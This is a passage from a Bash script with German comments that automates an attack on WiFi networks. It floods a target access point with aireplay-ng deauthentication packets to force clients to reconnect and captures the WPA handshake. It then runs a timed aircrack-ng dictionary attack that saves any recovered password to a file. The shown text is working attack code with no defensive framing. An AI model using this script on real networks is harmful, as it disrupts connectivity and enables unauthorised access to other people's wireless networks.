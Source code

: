     # Warte kurz
    sleep 5
    
    log "${YELLOW}Sende $DEAUTH_COUNT Deauthentifizierungspakete...${NC}"
    # Sende Deauthentifizierungspakete
    aireplay-ng --deauth $DEAUTH_COUNT -a $bssid $mon_interface > /dev/null 2>&1
    
    # Warte auf möglichen Handshake
    log "${YELLOW}Warte auf Handshake Capture (30 Sekunden)...${NC}"
    sleep 30
    
    # Sende weitere Deauthentifizierungspakete
    log "${YELLOW}Sende weitere $DEAUTH_COUNT Deauthentifizierungspakete...${NC}"
    aireplay-ng --deauth $DEAUTH_COUNT -a $bssid $mon_interface > /dev/null 2>&1
    
    # Warte weitere 30 Sekunden
    sleep 30
    
    # Beende airodump-ng
    kill $airodump_pid 2>/dev/null
    
    # Prüfe, ob ein Handshake erfasst wurde
    local handshake_file="${output_name}-01.cap"
    
    if [ -f "$handshake_file" ]; then
        log "${GREEN}Handshake-Datei wurde gespeichert: $handshake_file${NC}"
        echo "$handshake_file"
    else
        log "${RED}Keine Handshake-Datei gefunden.${NC}"
        return 1
    fi
}

# Handshake cracken
crack_handshake() {
    local handshake_file=$1
    local ssid=$2
    
    log "${YELLOW}Starte Wörterbuch-Angriff auf $ssid...${NC}"
    
    # Starte aircrack-ng mit Zeitlimit von 10 Minuten
    timeout 600 aircrack-ng -w $WORDLIST "$handshake_file" -l "$OUTPUT_DIR/password_$ssid.txt" > "$OUTPUT_DIR/crack_output_$ssid.txt" 2>&1
    